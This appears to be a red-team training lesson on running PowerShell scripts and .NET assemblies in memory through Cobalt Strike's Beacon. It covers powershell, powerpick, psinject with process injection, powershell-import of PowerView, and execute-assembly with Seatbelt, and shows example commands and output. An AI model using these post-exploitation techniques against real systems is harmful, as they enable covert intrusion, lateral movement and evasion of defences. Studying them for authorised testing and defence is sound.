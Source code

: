 There are countless commercial and open source tooling that are useful to leverage during an engagement. Some notable examples include Seatbelt for local reconnaissance, PowerView for domain reconnaissance, Certipy & Certify for ADCS abuse, Rubeus for Kerberos abuse, and Impacket for lateral movement, credential dumping & relaying.  Some tools will need to be executed directly on a target and some can operate over a network.  This lesson will focus on the former.  

Beacon provides means to execute PowerShell scripts, .NET assemblies, and reflective DLLs, all in-memory to give as much flexibility as possible to the operator.

## powershell

There are three ways to execute PowerShell in Beacon. The first is with the `powershell` command.

```powershell
beacon> help powershell
Use: powershell [commandlet] [arguments]

Execute the command using powershell. Any cmdlets from the
last use of powershell-import are available here too.
```

This uses powershell.exe which makes it roughly equivalent to the `shell` command (which uses cmd.exe).

```powershell
beacon> powershell $env:computername
LON-WKSTN-1
```

The cmdlet and arguments that you specify are converted into an encoded command before execution.  So the command above is actually executed as: `powershell -nop -exec bypass -EncodedCommand JABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlAA==`.  Operators can modify this behaviour using hooks in Aggressor script.

## powerpick

```powershell
beacon> help powerpick
Use: powerpick [commandlet] [arguments]
     powerpick "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [commandlet] [arguments]

Execute the command using Unmanaged PowerShell. Any cmdlets from the
last use of powershell-import are available here too.
```

This command uses an instance of unmanaged PowerShell, which taps into the underlying PowerShell APIs without relying on powershell.exe.  This is based on Lee Christensen's [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) project.  This is a fork and run command which starts Beacon's spawnto process, injects the unmanaged PowerShell DLL into it, and reads the output over a named pipe.

``` powershell
beacon> powerpick $env:computername
LON-WKSTN-1
```

## PsInject

```powershell
beacon> help psinject
Use: psinject [pid] [arch] [commandlet] [arguments]

Inject Unmanaged PowerShell into a specific process and execute the
specified command. Any cmdlets from the last use of powershell-import are 
available here too.
```

This works in the same way as `powerpick`, but allows operators to inject the unmanaged DLL into an existing process rather than spawning a new one.  This can be useful for running PowerShell scripts in the context of another user, assuming you have the privileges to inject into their processes.

```powershell
beacon> psinject 3020 x64 $PID
[*] Tasked beacon to psinject: $PID into 3020 (x64)

3020
```

## Importing PowerShell Scripts

To execute external PowerShell scripts, they must first be imported using the `powershell-import` command.

```powershell
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
```

For example, to import PowerView, we would do:

```powershell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

> This is the local path on the machine running the Cobalt Strike client, **not** the target the Beacon is running on.

The content of the imported script is automatically imported into the PowerShell session when running `powershell`, `powerpick`, and `psinject`.  Beacon does this by hosting the script on a small built-in webserver, which is then fetched and imported during execution.

```powershell
beacon> powerpick Get-Domain

Forest                  : contoso.com
DomainControllers       : {lon-dc-1.contoso.com}
<SNIP>
```

> Beacon can only hold one imported script at a time.

## .NET

The `execute-assembly` command uses a reflective DLL to load and host the CLR (Command Language Runtime), and then executes a .NET assembly from memory.  Only .NET Framework assemblies are supported (i.e. no .NET/.NET Core).

```powershell
beacon> help execute-assembly
Use: execute-assembly [/path/to/file.exe] [arguments]
Use: execute-assembly "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [/path/to/file.exe] [arguments]

Executes a local .NET process assembly on target. This command loads the CLR in a temporary
process and loads the assembly into it. If the assembly is in the data store, this command will
use the loaded item automatically. For more information (help data-store).

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

[*] Completed collection in 0.181 seconds
```